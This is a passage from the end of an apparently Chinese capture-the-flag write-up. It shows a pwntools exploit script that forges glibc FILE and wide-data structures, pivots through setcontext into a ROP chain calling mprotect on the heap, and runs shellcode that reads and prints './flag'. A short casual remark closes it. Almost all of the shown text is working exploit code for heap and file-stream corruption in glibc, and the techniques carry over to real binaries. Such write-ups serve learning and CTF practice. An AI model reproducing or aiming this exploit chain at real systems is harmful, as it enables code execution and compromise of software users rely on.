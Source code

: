   ```python
      # fp->_wide_data->_IO_write_base == fp->_wide_data->_IO_write_ptr
      # _IO_in_put_mode (fp) != 0
      payload = flat(
          {
              0x28-0x10:1, # write_ptr
              0xa0-0x10:fake_wide_data,
              0xd8-0x10:fake_vtable,
          },
          filler = '\x00'
      )
      payload = payload.ljust(0xf0, b'\x00')
  
      #wide_data
      payload += flat(
          {
              0x20:fake_wide_data, # rdx & write_ptr
              0x28:libc_base + libc.sym['setcontext'] + 61,
              0xe0:fake_wide_data+0x10,
              0xa0:rop_chain,  #rsp
              0xa8:rdi_ret
  
          },
          filler = '\x00'
      )
      payload = payload.ljust(0x1f0, b'\x00')
  
      #rop_chain
      # mprotect(heapbase, 0x100, 7)
      payload += flat(
          {
              heap_base,
              rsi_ret,
              0x100,
              rdx_rbx_ret,
              0,
              7,
              libc_base + libc.sym['mprotect'],
              heap_base + 0xf30
          }
      )
  
      #sc
      payload += asm(shellcraft.open('./flag'))
      payload += asm(shellcraft.read(3, heap_base + 0xfe0, 20))
      payload += asm(shellcraft.write(1, heap_base + 0xfe0, 20))
  
      edit(2, payload)
      p.sendlineafter(b'>', b'5')
      p.interactive()
  main()
  
  ```


### 碎碎念

发现越写越水哈哈哈，主要是到饭点了，懒得打字，恰饭去咯！
